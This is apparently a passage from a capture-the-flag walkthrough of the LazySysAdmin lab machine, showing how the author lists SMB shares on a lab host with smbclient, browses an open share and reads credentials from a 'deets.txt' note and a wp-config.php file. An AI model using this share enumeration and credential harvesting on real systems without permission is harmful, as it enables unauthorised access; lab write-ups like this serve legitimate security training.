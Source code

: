 ```

root@clueless:~# smbclient -L 10.0.2.12
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	share$          Disk      Sumshare
	IPC$            IPC       IPC Service (Web server)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAZYSYSADMIN


```

two options now, use CLI or GUI, I recommend GUI, open your explorer and go to "other locations" type in the following server address: `smb://10.0.2.12` and you can browse freely


alternatively, using CLI

`smbclient //LAZYSYSADMIN/share$`

Will grant you access to an smb shell in the share folder

`get ` will download files from the samba server into your home dir.

I used the GUI approach.

in the samba share you will find a document called "deets.txt"

when you open it it will contain this:

```


CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345


```

in the"wp-config.php" file there was the following interesting line
`DB_PASSWORD,TogieMYSQL12345^^'`
------
